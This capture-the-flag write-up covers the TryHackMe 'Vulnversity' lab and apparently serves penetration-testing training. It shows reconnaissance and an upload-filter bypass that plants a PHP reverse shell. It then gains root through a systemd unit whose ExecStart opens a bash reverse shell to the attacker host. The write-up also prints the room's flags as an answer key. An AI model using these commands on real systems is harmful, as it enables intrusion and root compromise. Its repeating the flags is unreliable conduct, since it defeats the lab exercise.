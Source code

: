 # Vulnsersity
**Category:** Web
## Challenge Details
TryHackMe Challenge: [Vulnersity](https://tryhackme.com/room/vulnversity).  
Server IP address: 10.10.46.102  
Local IP address: 10.8.73.170  
Learn about active recon, web app attacks and privilege escalation.  
- Port scanning
- PHP reverse shell (file upload)
- Privilege escalation

## Write Up

### Reconnaissance  

Gather information about this machine using a network scanning tool called [nmap](https://nmap.org/download.html).  
Using `nmap -sV 10.10.46.102`, information about the services on the server are shown.  

![](images/1.png)  

- Scan the box, how many ports are open? **6**
- What is the most likely operating system this machine is running? **Ubuntu**
- What port is the web server running on? **Port 3333**

### Locating directories using GoBuster 

Using a fast directory discovery tool called [GoBuster](https://github.com/OJ/gobuster) you will locate a directory that you can use to upload a shell to.

```sh
sudo apt install gobuster
gobuster -u http://10.10.46.102:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](images/2.png)  

Upon visiting the directory `/internal/`, a file upload page was discovered.  

![](images/3.png)  

### Compromise the webserver  

When uploading a [PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell), it appears that the file extension `.php` is not allowed. After brute-forcing with other extensions, `.phtml` seemed to be allowed.  
> .php  
> .php3  
> .php4  
> .php5  
> ***.phtml***

To gain remote access to this machine, follow these steps:
1. Edit the php-reverse-shell.php file and edit the ip to be your IP address.
2. Rename this file to php-reverse-shell.phtml
3. We're now going to listen to incoming connections using netcat. Run the following command: `nc -lvnp 4444`
4. Upload your shell and navigate to http://10.10.46.102:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
5. You should see a connection on your netcat session

![](images/4.png)  

#### User Flag:
```
8bd7992fbe8a6ad22a63361004cfcedb
```

### Privilege Escalation 
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).  


In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).  
Using the command ```shfind / -user root -perm -4000 -exec ls -ldb {} \;```, the file that stands out appears to be `/bin/systemctl` as a service can be started to grant root privilege.  

![](images/5.png)  

File root.service will be used to attempt privilege escalation.
```sh
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.73.170/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

To gain root access to this machine, follow these steps:
1. Transfer root.service to the remote machine. This can be done by hosting a http service and downloading the file from the remote machine.
2. Enter ```python3 -m http.server```on the local machine.
3. Switch to the remote machine to download root.service into /tmp directory.
4. Enter ```wget http://10.8.73.170:8000/root.service```
![](images/6.png)  
5. enable root.service using `systemctl enable /tmp/root.service`.
6. Start listener on local machine. `nc -lvnp 9999`.
7. Run root service on remote machine. `systemctl start root.service`

![](images/7.png)

Locate Root flag.  
![](images/8.png)

#### Root Flag:
```
a58ff8579f0a9270368d33a9966c7fd5
```